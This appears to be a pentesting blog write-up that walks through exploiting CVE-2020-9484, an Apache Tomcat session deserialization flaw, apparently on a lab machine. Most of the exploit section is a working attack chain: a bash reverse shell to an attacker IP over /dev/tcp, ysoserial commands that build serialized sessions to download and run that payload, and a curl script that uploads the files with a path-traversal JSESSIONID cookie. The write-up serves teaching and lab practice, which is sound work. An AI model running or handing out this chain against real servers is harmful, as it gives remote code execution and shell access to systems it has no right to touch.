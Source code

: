 ```yaml
---
title: Apache Tomcat Server - Deserialization of Untrusted Data (RCE)
author: Udesh
date: 2020-12-29
categories: [Pentesting]
tags: [Pentesting]
---
```


# Apache Tomcat Server - Deserialization of Untrusted Data (RCE)

Apache Tomcat is an open-source implementation of the Java Servlet, JavaServer Pages, Java Expression Language and WebSocket technologies. In this post we will dive into the analaysis of a vulnerability in the apache tomcat server 9.0.27. 
- [CVE - 2020-9484](https://nvd.nist.gov/vuln/detail/CVE-2020-9484 "CVE - 2020-9484")

## Introduction
The vulnerability allows a remote attacker to execute arbitrary code on the target system. The vulnerability exists due to insecure input validation when processing serialized data in uploaded files names. A remote attacker can pass specially crafted file name to the application and execute arbitrary code on the target system.

## Prerequisites
1. The attacker is able to upload a file with arbitrary content.
2. We have to know the location where the file is uploaded
3. The PersistentManager is enabled and it is using a FileStore.

## Exploit
  Tomcat provide two implementations for session managment. 
- StandardManager
- PersistentManager

When you are using PersistentManager first, it checks the session is exists in the memory, if the session does not exist in memory it will check the session on the disk. When Tomcat receives a HTTP request with a JSESSIONID cookie, it will ask the Manager to check if this session already exists. Because the attacker can control the value of JSESSIONID sent in the request, what would happen if he put something like “JSESSIONID=../../../../../../tmp/12345“?

1. Tomcat requests the Manager to check if a session with session ID“../../../../../../tmp/12345 exists.
2. It will first check if it has that session in memory.
3. It does not. But the currently running Manager is a PersistentManager, so it will also check if it has the session on disk.
4. It will check at location directory + sessionid + ".session", which evaluates to “./session/../../../../../../tmp/12345.session“
5. If the file exists, it will deserialize it and parse the session information from it.

### Step 1:

In this case, I found my file upload path in server exception. So, my file path is /opt/samples/uploads

![1.PNG]({{site.baseurl}}/assets/img/post/post7/1.PNG)

### Step 2:
We need to create our payload. In here i used simple bash reverse shell.
```bash
#! /bin/bash
bash -c "bash -i >& /dev/tcp/10.10.14.102/8888 0>&1"
```
![2.PNG]({{site.baseurl}}/assets/img/post/post7/2.PNG)

### Step 3:
Create a serialized session file to download our payload with curl. To do this, I used ysoserial jar file. download it from [here](https://github.com/frohoff/ysoserial "here").

```bash
java -jar ysoserial-master-4df2ee2bb5-1.jar CommonsCollections2 'curl http://10.10.14.102/payload.sh -o /tmp/payload.sh' > downloadPayload.session
```
Then, Create a second serialized session file to execute our payload.

```bash
java -jar ysoserial-master-4df2ee2bb5-1.jar CommonsCollections2 'bash /tmp/payload.sh' > executePayload.session
```
Finally, we have created two session files as our malicious session payload. 

![3.PNG]({{site.baseurl}}/assets/img/post/post7/3.PNG)

### Step 4: 
Now, We need to create bash script for send curl command  with cookie and our malicious files.

```bash
#! /bin/bash
curl http://10.10.10.205:8080/upload.jsp -H 'Cookie:JESSIONID=../../../opt/sample/uploads/downloadPayload' -F 'image=@downloadPayload.session'
sleep 1
curl http://10.10.10.205:8080/upload.jsp -H 'Cookie:JESSIONID=../../../opt/sample/uploads/executePayload' -F 'image=@executePayload.session'
```
Note: The server address `10.10.10.205:8080` is our tomcat server and `../../../opt/samples/uploads/` is the file upload path.

![4.PNG]({{site.baseurl}}/assets/img/post/post7/4.PNG)

### Step 5:
Finally, Setup the listner for the reverse shell and web server for the payload downloaded by the target.

![5.PNG]({{site.baseurl}}/assets/img/post/post7/5.PNG)

Now you can execute the curl bash script which we created in step 4 and get the reverse shell as the tomcat user.

## References 
- https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/
- https://github.com/frohoff/ysoserial

